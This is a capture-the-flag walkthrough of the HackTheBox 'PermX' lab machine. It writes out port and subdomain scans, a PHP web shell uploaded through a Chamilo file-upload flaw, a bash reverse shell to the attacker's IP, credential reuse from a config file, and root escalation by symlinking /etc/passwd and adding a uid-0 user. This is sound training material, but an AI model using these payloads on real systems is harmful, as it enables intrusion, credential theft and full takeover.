


# PermX HackTheBox WalkThrough



We’ll start the machine by scanning all ports over TCP.

```
nmap -p- -sS -Pn -n --min-rate 5000 10.129.123.204

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-10 15:07 CET
Nmap scan report for 10.129.123.204
Host is up (0.042s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.30 seconds
```

The scan shows that ports `22` (SSH) and `80` (HTTP) are open. Next, let’s check the services and versions running on these ports.

```
nmap -p22,80 -sVC 10.129.123.204
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-10 15:11 CET
Nmap scan report for 10.129.123.204
Host is up (0.048s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://permx.htb
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.65 seconds
```

As expected, SSH is on port `22`, and HTTP on port `80`.

The HTTP service shows a redirect to `http://permx.htb`, so we’ll add this domain to `/etc/hosts` to access it from our machine.

```
echo '10.129.123.204  permx.htb' >> /etc/hosts
```

After doing some basic reconnaissance, we’ll access the website.


Navigating around, we found nothing initially vulnerable, so we’ll perform subdomain fuzzing in search of another page to exploit. (`-fw` hides all subdomains whose response is 18 words).

```
ffuf -u http://permx.htb --ic -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -t 200 -H 'Host: FUZZ.permx.htb' -fw 18

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://permx.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.permx.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 18
________________________________________________

lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 87ms]
www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 2929ms]
:: Progress: [19964/19964] :: Job [1/1] :: 216 req/sec :: Duration: [0:00:16] :: Errors: 0 ::
```

After a few seconds, `ffuf` reveals `lms.permx.htb`. We’ll add it to `/etc/hosts` and explore it further.

```
echo '10.129.123.204  lms.permx.htb' >> /etc/hosts
```



The `lms.permx.htb` site contains a login for a service called Chamilo, an online learning management system.

Researching Chamilo’s vulnerabilities, we find [CVE-2023-4220](https://www.cve.org/CVERecord?id=CVE-2023-4222), which allows unauthenticated users to upload files to `/main/inc/lib/javascript/bigupload/inc/bigUpload.php`, which can then be executed from `/main/inc/lib/javascript/bigupload/files`.

```
echo '<?php system($_GET["exec"]) ?>' > cmd.php
```

To exploit this, we upload malicious `php` code and execute it with a command (e.g., whoami) to confirm Remote Command Execution (RCE).

We upload it:

```
curl -F 'bigUploadFile=@cmd.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```

And we try to execute the `whoami` command in the victim machine to confirm we have a **rce**.

```
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/cmd.php?exec=whoami'

www-data
```

Upon confirming **rce**, we attempt a reverse shell.

```
curl -G 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/cmd.php' --data-urlencode 'exec=bash -c "bash -i >& /dev/tcp/10.10.14.134/1234 0>&1"'
```

We listen with netcat.

```
nc -lnvp 1234

listening on [any] 1234 ...
connect to [10.10.14.134] from (UNKNOWN) [10.129.123.204] 53274
bash: cannot set terminal process group (1116): Inappropriate ioctl for device
bash: no job control in this shell
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$
```

With reverse shell access, we make the terminal session more interactive for easier navigation with TTY treatment.

```
script /dev/null -c bash
```

Press `ctrl`+`z`

```
stty raw -echo; fg
```

```
reset xterm
```

```
export TERM=xterm
export SHELL=bash
```

Now we will search the web server’s directory for database credentials.

```
cd /var/www
ls

chamilo  html
```

```
cd chamilo
```

In chamilo's folder, afer navigating into its folders, we find `app/config/configuration.php` contains the database credentials.

```
cat app/config/configuration.php

...etc...

// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';

...etc...
```

We found the password `03F6lY3uXAP2bkW8`, which we can try to use with a system user in case it is being re-used.

To get functional system users, we will search for all users with a shell (which normally ends in "sh").

```
cat /etc/passwd | grep -E 'sh$'

root:x:0:0:root:/root:/bin/bash
mtz:x:1000:1000:mtz:/home/mtz:/bin/bash
```

There is a user called `mtz`, Let's try to authenticate as `mtz` with the database password.

```
su mtz
Password: 03F6lY3uXAP2bkW8
```

Or

```
ssh mtz@permx.htb
mtz@permx.htb's password: 03F6lY3uXAP2bkW8
```

With successful access, we can read the user flag.

```
cd
cat user.txt
```

Next, we check for commands we can run as `root` using `sudo` to escalate privileges.

```
sudo -l

Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

We can run /opt/acl.sh as root without a password. Let's review it to look for the way of getting root.

```
cat /opt/acl.sh
```

```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

The script tries to modify an ACL (Access Control List) of a file we choose in the `/home/mtz` directory.

---

**What is an ACL in Linux?**

*An ACL, or Access Control List, is a way to grant specific permissions to users or groups in a more individualized manner.*

*This is why it’s dangerous to let users input commands like setfacl. It could allow them to grant themselves read or write access to files they shouldn’t have access to.*

*You can learn more about ACLs and their usage [here](https://www.geeksforgeeks.org/linux-setfacl-command-with-example/).*

---

A way of escalating privileges could be setting write permission to a file like `/etc/passwd` and add a line of a "user" with a custom password and set `uid=0` and `gid=0`, but we can only modify the ACL in files located in `/home/mtz`.

However, this can be easily bypassed using a symbolic link located in the `/home/mtz` that points to the file we want to write on, in this case `/etc/passwd`.

```
ln -s /etc/passwd
```

Now we will set all the permissions for the user `mtz`.

```
sudo /opt/acl.sh mtz rwx /home/mtz/passwd
```

Now we should be able to write on the `/etc/passwd` file, so we will first make a hash in `md5` of the password "password123" to include in the user line.

```
openssl passwd password123
$1$9nU.5qrv$atbXblOUGwlYzzXrspYap1
```

Then we include in the `/etc/passwd` file a line of a user `rootwo` with same fields as `root` but with the recently created hashed password.

To make this line you will probably need the [/etc/passwd structure](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/).

```
echo 'rootwo:$1$9nU.5qrv$atbXblOUGwlYzzXrspYap1:0:0:root:/root:/bin/bash' >> /etc/passwd
```

Using the new user `rootwo`, we authenticate and gain root privileges.

```
su rootwo
Password: password123
```

Allowing us to read the `root` flag.

```
cd
cat root.txt
```

After finishing the machine, don’t forget to remove the line from `/etc/hosts` corresponding to the machine to avoid accumulating lines with each machine you do.

If you found this useful, consider giving a star to the project. Thank you, and good luck with your future machines ❤️.